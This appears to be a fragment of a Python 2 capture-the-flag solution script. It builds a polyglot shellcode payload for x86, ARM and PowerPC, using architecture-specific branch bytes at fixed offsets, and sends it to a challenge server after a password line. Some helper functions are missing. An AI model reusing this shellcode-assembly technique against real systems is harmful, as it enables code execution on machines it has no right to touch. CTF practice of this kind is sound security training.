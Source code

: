     PPC_START_OFFSET = 0x174
    def get_ppc_shellcode():
        # no compilation here yet
        os_dd('shellcode-ppc.bin','shellcode-ppc', skip=52, count=0x6e)
        return open('shellcode-ppc.bin').read()

    def get_branch():
        # x86 jump
        r = '\x73\x12\x00\x00'
        # PPC branch
        r += '\x48\x00\x01\x70'
        # ARMEL branch
        r += '\x9a\x00\x00\x40'
        # ARMEB branch
        r += '\x13\x00\x00\xea'
        return r

    def assemble():
        shellcode = ['X']*1024
        pc = 0
        branch = get_branch()
        shellcode = dd(shellcode, branch)
        pc = len(branch)
        shellcode = dd(shellcode, get_x86_shellcode(), seek=pc)
        pc = ARMEL_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        print "pc is now", pc
        shellcode = dd(shellcode, get_armel_shellcode(), seek=pc)
        pc = ARMEB_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        shellcode = dd(shellcode, get_armeb_shellcode(), seek=pc)
        pc = PPC_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        shellcode = dd(shellcode, get_ppc_shellcode(), seek=pc)
        open('shellcode-assembled','w').write(''.join(shellcode))
        return shellcode

    def test_live():
        con = Sock("polyglot_9d64fa98df6ee55e1a5baf0a170d3367.2014.shallweplayaga.me 30000")
        con.send_line('w0rk_tHaT_tAlEnTeD_t0nGu3')
        sys.stdout.write(con.read_one()+'\n\n')
        time.sleep(0.5)
        con.send(''.join(assemble()))
        while 1:
            sys.stdout.write(con.read_one(15))
